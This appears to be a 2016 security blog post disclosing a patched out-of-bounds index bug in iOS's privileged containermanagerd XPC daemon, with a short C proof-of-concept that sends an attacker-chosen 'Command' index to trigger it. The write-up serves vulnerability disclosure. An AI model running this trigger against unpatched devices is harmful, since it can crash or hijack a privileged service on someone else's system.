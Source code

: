 ```yaml
---
layout: post
title:  "[CVE-2016-????] iOS containermanagerd XPC array out of bound vulnerability"
date:   2016-06-17 12:00:00 +0800
categories: security apple xpc
---
```


Today I remembered about a iOS bug I had in `containermanagerd`, and I tought to check if it still was present in `iOS 10 beta`.

## Preliminary informations

`containermanagerd` is a privileged daemon on iOS that manages application containers and stuff.

`XPC` is a OS X/iOS IPC higher level mechanism compared to mach messages or MIG...

You may want to also check some research on `XPC`, such as [`Pangu` presentations][pangu-xpc], and `Ian Beer` Project Zero bugs, PoCs and presentation.

## Brief Explanation

If you want to follow along, you can also do it thanks to the "Apple leak" on `iOS 10`, where they forgot to encrypt a bunch of stuff in the `ipsw` of several models, including the `root filesystem` (so you can get the `containermanagerd` binary and drop it in `IDA Pro`) and `kernelcache`.

As you can imagine since I'm writing this post, the bug has been fixed in `iOS 10`.

The post will be fairly short, just dropping the trigger `PoC`.

The bug is fairly simple, we control a index used with an "array of commands", in which a command is a string and a function pointer (huh?), so we can make the program grab a "command" from a wrong location, possibly executing arbitrary code.

If you want to see more details about the bug, just drop a unpatched version of `containermanagerd` in IDA.

## Vulnerable Code

![containermanagerd vulnerable code](/assets/containermanagerd.jpg)

The red box is the new added check in iOS 10 on the array index, which comes from the input with `xpc_dictionary_get_uint64` with "Command" key (wrongly shown in IDA decompilation).

Later after this index is used to access the array I mentioned.

## PoC:

{% highlight c %}
#include "xpc/xpc.h"
#include <CoreFoundation/CoreFoundation.h>

int main(int argc, char **argv, char **envp) {
    xpc_connection_t client = xpc_connection_create_mach_service("com.apple.containermanagerd",
                                                                   NULL,
                                                                     0);
    xpc_connection_set_event_handler(client, ^(xpc_object_t event) {
        //connection err handler
    });
    xpc_connection_resume(client);
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);



    xpc_dictionary_set_uint64(message, "Command", 0x41414141);
    xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, message);

    NSLog(@"reply %@", reply);

    return 0;
}
{% endhighlight %}

#### Take aways:
- All input that comes via IPC should be treated as untrusted.

[pangu-xpc]: https://www.blackhat.com/docs/us-15/materials/us-15-Wang-Review-And-Exploit-Neglected-Attack-Surface-In-iOS-8.pdf

